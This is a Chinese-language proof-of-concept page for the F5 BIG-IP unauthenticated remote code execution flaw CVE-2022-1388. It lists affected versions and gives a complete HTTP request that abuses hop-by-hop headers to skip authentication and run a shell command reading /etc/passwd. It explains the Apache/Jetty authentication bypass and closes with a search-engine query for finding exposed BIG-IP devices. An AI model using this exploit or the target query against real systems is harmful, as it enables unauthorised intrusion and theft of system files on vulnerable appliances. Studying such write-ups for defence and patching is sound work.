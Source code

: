 # F5 BIG-IP 未授权RCE漏洞（CVE-2022-1388）

## 利用条件：

- BIG-IP 16.x: 16.1.0 - 16.1.2
- BIG-IP 15.x: 15.1.0 - 15.1.5
- BIG-IP 14.x: 14.1.0 - 14.1.4
- BIG-IP 13.x: 13.1.0 - 13.1.4
- BIG-IP 12.x: 12.1.0 - 12.1.6
- BIG-IP 11.x: 11.6.1 - 11.6.5

## 利用方法：

#### POC：
```java
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Authorization: Basic YWRtaW46
X-F5-Auth-Token: asdf
Connection: keep-alive,X-F5-Auth-Token
Content-Type: application/json
Content-Length: 83

{"command":"run","utilCmdArgs":"-c 'cat /etc/passwd'"}
```
![](/img/poc.jpg)

## 漏洞分析：

1. Apache（模块 `mod_pam_auth.so`）会检查 `X-F5-Auth-Token` 是否为空。只有当存在 `X-F5-Auth-Token` 头并且不为空时，才会交给后端的 Jetty 进行认证，Jetty 来检查 `X-F5-Auth-Token` 的值是否合法（`EvaluatePermissions#evaluatePermission`），从而完成第二次认证，但是 Jetty 判断 `X-F5-Auth-Token` 为空时，将直接 “认为” Apache 已经完成认证从而不会检查提供的信息是否合法，从而实现了认证绕。
2. 如果请求中带有 HTTP 头 `Connection: close, X-Foo, X-Bar`，Apache 会在请求转发到代理前，将 `X-Foo` 和 `X-Bar` 逐一删除。
3. 很容易联想到可以构造特殊请求，通过 Apache 的检查，同时由于 hop-by-hop 滥用漏洞导致转发进入 Jetty 前已经删除了 `X-F5-Auth-Token` 头。
4. 顺利进入了 Jetty 解析，同时又不存在 `X-F5-Auth-Token` 头，从而实现了认证绕过。后面的逻辑处理与 CVE-2021-22986 是一样的，结合 F5 BIG-IP iControl REST 自带接口，很容易实现 RCE 。

## 漏洞环境：

某fa搜索：
` title="BIG-IP&reg;-+Redirect" && "Server" && server=="Apache" `